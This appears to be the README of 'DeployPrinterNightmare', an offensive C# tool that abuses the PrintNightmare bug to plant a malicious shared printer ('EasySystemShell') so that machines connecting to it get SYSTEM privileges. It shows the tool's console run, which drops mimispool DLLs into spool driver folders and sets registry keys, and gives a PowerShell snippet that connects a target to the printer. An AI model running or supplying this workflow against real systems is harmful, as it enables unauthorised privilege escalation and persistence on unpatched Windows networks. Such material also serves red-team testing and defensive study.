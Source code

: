 # DeployPrinterNightmare
C# tool for installing a shared network printer abusing the PrinterNightmare bug to allow other network machines easy privesc!

Discovered and demonstraited by the one and only [Benjamin Delpy](https://twitter.com/gentilkiwi)

```
C:\Users\Flangvik\Desktop>FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```
You can then reach the EasySystemShell printer from the same network by hitting the computer it was installed on using explorer (Go to \\\\printer-installed-host\ in explorer, click the printer and install) or using PowerShell

```
$serverName  = 'printer-installed-host'
$printerName = 'EasySystemShell'
 
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
 
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

# Credits and ressources

*  @shreedee => https://github.com/shreedee/EVOPrinter/blob/master/printerDriver/SpoolerHelper.cs
*  [Benjamin Delpy](https://twitter.com/gentilkiwi) => https://twitter.com/gentilkiwi/status/1420896231648288772
* https://pentestlab.blog/2021/08/02/universal-privilege-escalation-and-persistence-printer/
* https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinterdriverex
* https://github.com/freefirex
